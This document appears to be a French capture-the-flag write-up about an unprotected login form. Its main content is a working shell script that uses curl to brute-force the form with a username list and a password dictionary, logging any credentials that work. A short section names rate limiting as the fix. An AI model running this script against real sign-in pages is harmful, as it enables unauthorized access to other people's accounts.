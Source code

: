 # Explications
Dans la page "signin", il y un formulaire de connexion :

```html
<form action="#" method="GET"> 
	<input type="hidden" name="page" value="signin">
	Username:<input type="text" name ="username" style="width:100%;">
	Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off">
	<input type="submit" value="Login" name ="Login">
</form>
```
On observe après plusieurs essais de connexion que le site ne nous **bloque** pas et ne nous empeche pas de ressayer de se connecter.

Donc on essaye de se connecter en **Brute Force** avec un script shell :
```bash
#!/bin/sh
curl -s "http://$1/?page=signin&username=qsdqsd&password=qsd&Login=Login#" > trueone
while IFS='' read -r user; do
	echo "try user : $user"
	url1="http://$1/?page=signin&username="
	url2="&password="
	url3="&Login=Login#"
	while IFS='' read -r line; do
			echo "\ttry password: $line"
			curl -s "$url1$user$url2$line$url3" > tested
			DIFF=$(diff trueone tested)
			if [ "$DIFF" != "" ]
			then
					cat tested | grep "flag"
					echo "user is : $user\npassword is $line" >> result.txt
					rm tested
					break
			fi
			rm tested
	done < "dict.txt"
done < "users.txt"
```
Avec ce **Brute Force**, on utilise un [dictionnaire](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) de mot de passe, et un liste d'**users**.

# Comment l'éviter ?
Il faut bloquer les **Brute Force**, en limitant le nombre d'essais de connexion sur une page.

# Bonus
On se rend compte apres plusieurs essais d'users avec le **Brute Force** que l'user n'est même pas necessaire pour obtenir le flag sur cette page.